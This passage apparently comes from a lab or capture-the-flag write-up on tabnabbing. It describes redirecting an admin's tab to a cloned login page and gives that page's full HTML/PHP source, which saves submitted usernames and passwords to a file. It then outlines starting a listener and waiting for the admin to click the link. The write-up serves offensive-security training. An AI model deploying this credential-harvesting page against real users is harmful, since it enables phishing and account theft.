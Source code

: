 The hijacked tab will then be redirected to the login page cloned from the login page found in the admin directory during DirBuster enumeration. When the unsuspecting user signs back in, the victim’s username and password are captured and posted to the attacking server using PHP

Copy admin page login source code

```abap
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<?php
        if(isset($_POST['username'])){
                file_put_contents('creds.txt', file_get_contents('php://input'));
        }

?>

<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>

        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>

```

Once the required ingredients are in place, we can start a PHP or Python listener, submit the link, and wait for a few moments for the admin to click on the link. The JavaScript will be executed when the admin clicks the link and redirect the original tab to the cloned login page.
